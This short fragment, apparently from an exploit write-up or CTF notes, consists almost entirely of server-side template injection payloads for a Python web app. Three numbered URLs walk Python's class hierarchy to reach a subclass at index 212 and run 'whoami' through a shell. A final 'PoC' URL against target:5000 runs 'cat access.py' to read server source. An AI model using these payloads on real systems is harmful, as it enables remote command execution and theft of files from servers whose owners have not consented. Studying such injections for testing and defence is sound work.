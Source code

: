 1. `/user/{{ ''.__class__.__mro__[1].__subclasses__() }}`
2. `/user/{{ ''.__class__.__mro__[1].__subclasses__()[212] }}`
3. `/user/{{ ''.__class__.__mro__[1].__subclasses__()[212]("whoami", shell=True, stdout=-1).communicate() }}`

PoC: 
```
http://target:5000/user/{{ ''.__class__.__mro__[1].__subclasses__()[212]("cat access.py", shell=True, stdout=-1).communicate() }}
```
